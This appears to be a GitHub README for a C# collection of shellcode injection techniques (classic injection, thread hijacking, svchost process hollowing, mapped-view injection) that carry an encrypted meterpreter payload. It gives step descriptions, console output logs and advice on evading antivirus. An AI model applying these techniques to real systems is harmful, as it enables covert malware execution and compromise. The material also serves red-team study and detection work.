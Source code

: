 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

### Note
When using process hollowing you need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
 Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Notes
Remember you will need to start a process to inject to, except when using Process Hollowing (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```
